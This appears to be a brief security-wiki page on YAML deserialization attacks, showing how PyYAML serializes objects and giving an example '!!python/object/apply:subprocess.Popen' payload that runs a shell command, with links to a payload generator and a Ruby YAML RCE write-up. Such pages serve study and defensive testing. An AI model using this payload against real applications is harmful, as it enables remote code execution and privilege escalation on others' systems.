 ```yaml
---
description: >-
  Some YAML libraries are capable of serializing actual commands instead of just
  raw data. Which can be utilized to achieve RCE or PrivEsc.
---
```


# YAML deserialization attack

Try running the following script in Python

```python
import yaml

print(yaml.dump(range(1,10)))
```

You can see that the `range` method itself is serialized. To exploit this, you simply need to craft a nice YAML payload.

Which can conveniently be done using: [https://github.com/j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)

Example Python payload:

```yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +x
  - /bin/bash
```

Ruby also have a similar vulnerability

[https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
